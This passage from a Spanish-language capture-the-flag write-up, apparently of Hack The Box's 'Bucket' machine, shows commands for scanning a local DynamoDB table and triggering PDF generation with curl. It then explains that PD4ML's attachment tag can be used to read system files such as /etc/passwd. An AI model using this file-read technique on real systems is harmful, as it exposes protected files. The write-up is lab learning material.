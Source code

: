 Validamos el contenido ahora:

```bash
roy@bucket:/var/www/bucket-app$ aws --endpoint-url=http://localhost:4566 dynamodb scan --table-name alerts
```

```json
{
    "Items": [
        {
            "title": {
                "S": "Ransomware"
            },
            "data": {
                "S": "/etc/passwd"
            }
        }
    ],
    "Count": 1,
    "ScannedCount": 1,
    "ConsumedCapacity": null
}
```

Ahora nos quedaria realizar la petición `cURL` con el metodo `POST` y el atributo `action`:

```bash
roy@bucket:/var/www/bucket-app$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
```

Obtenemos el archivo `result.pdf`:

```bash
roy@bucket:/var/www/bucket-app$ cd files
roy@bucket:/var/www/bucket-app/files$ ls -la
total 12
drwxr-x---+ 2 root root 4096 Jan  5 02:23 .
drwxr-x---+ 4 root root 4096 Sep 23 10:56 ..
-rw-r--r--  1 root root 1633 Jan  5 02:23 result.pdf
roy@bucket:/var/www/bucket-app/files$ cat result.pdf
%PDF-1.4
%
1 0 obj
% [24]
<<
/Filter /FlateDecode
...
```

Pero entre toda la data no vemos nada relacionado con el archivo `/etc/passwd`. Acá estuve un buen tiempo atascado, así que recurrí de nuevo a [@TazWake](https://www.hackthebox.eu/profile/49335) que me dio una mano con una página donde indica que `PD4ML` soporta archivos adjuntos mediante el tag: `<pd4ml:attachment>`, lo que nos permite adjuntar un archivo para ver o listar el contenido del mismo :P
